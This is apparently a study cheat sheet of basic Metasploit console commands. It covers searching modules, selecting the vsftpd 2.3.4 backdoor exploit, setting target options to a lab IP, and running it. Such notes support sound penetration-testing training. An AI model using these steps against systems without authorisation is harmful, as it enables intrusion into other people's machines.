



# Metasploit Basic Commands

## Start Metasploit
```
msfconsole
```



## Search Module
```
search vsftpd
search type:exploit samba
search cve:2007-2447
```

## Use Module
```
use exploit/unix/ftp/vsftpd_234_backdoor
```

## Show Module Details
```
info
```


## Show Required Options
```
show options
```

Important Options:

- RHOSTS → Target IP
- RPORT → Target Port
- LHOST → Your Kali IP
- LPORT → Your Listening Port

## Set Options
```
set RHOSTS 192.168.64.5
set RPORT 21
```

## Global Set
```
setg RHOSTS 192.168.64.5
```

## Remove Option
```
unset RHOSTS
unsetg RHOSTS
```

## Safe Check
```
check
```

## Run Exploit
```
run
exploit
```

## Back to Main Menu
```
back
```

---
